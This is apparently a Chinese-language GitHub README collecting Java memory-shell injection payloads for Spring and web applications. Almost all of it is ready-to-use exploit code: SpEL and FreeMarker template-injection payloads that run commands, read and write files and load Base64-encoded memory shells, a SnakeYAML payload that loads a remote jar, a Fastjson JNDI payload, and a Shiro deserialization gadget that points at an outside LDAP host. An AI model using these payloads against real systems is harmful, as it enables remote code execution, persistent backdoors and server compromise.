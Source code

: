 # Memoryshell-JavaALL
收集内存马打入方式

## SPEL 

不加模板解析的payload
```
T(java.lang.Runtime).getRuntime().exec("calc")
new+java.lang.ProcessBuilder("cmd","/c","Calc").start()
```
加模板解析的payload
```
#{new java.lang.ProcessBuilder({'calc'}).start()}
```
可以回显时使用
```
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()
```
可以打入内存马高版本Spring Core 受限
```
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}
```
使用JNDI 注入利用 在Springboot 中不适用，因为它会程序启动时初始化InitialContext
```
#{T(java.lang.System).setProperty('com.sun.jndi.ldap.object.trustURLCodebase', 'true')} 
#{new javax.management.remote.rmi.RMIConnector(new javax.management.remote.JMXServiceURL("service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc"), new java.util.Hashtable()).connect()}
```
## FreeMarker 

执行命令
```
${"freemarker.template.utility.Execute"?new()("id")}
${"freemarker.template.utility.Execute"?new()("Calc")}
<#assign value="freemarker.template.utility.Execute"?new()>${value("Calc")}
```
写文件
```
${"freemarker.template.utility.ObjectConstructor"?new()("java.io.FileWriter","/tmp/hh.txt").append("<>").close()}
```
读文件
```
<#assign+value="freemarker.template.utility.ObjectConstructor"?new()("java.io.FileReader","C:\\Temp\\test.txt")>${"freemarker.template.utility.ObjectConstructor"?new()("java.util.Scanner",value).useDelimiter("\\Aasd").next()}
```
使用SPEL利用
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc\")").getValue()}
```
使用SPEL 进行JNDI
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("new+javax.management.remote.rmi.RMIConnector(new+javax.management.remote.JMXServiceURL(\"service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc\"),new+java.util.Hashtable()).connect()").getValue()}
```
使用SPEL 加载内存马
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(org.springframework.cglib.core.ReflectUtils).defineClass('SpringInterceptor',T(org.springframework.util.Base64Utils).decodeFromString(\"yv66vgAAADQA5。。。\"),new+javax.management.loading.MLet(new+java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()").getValue()}
```
使用Jython 
```
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```
## YAML

ftp 可以换为HTTP 及其他支持协议
```
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["ftp://127.0.0.1:8000/yaml-payload4.jar"]]]]
```

不出网时： 
ScriptEngineManager(目前比较通用的一种方式，思路也比较好。同时拓展一下如果可以通过反序列化落地，那如果拥有上传接口也可以通过上传落地再进行加载。)

第一步：通过反序列化实现文件落地

第二步：加载本地文件内容

```
复现链接：https://xz.aliyun.com/t/10655
```

## Fastjson

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://xx.xx.xx.xx:9102/123",
        "autoCommit":true
    }
}
```

## Shiro Cookie 过长？ 不防看看这种方法
熟悉得师傅一下就可以看出内存马怎们打了吧
```
    final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
    queue.add("1");
    queue.add("1");
    Reflections.setFieldValue(comparator, "property", "parameterMetaData");
    JdbcRowSetImpl test =  new com.sun.rowset.JdbcRowSetImpl();
    test.setDataSourceName("ldap://823s64b3.dns.1433.eu.org.");
    final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
    queueArray[0] = test;
    return queue;
```
------------------------------------------------------------------------------------
各位师傅有建议及其他Payload 带带弟弟啊
未完待续.....
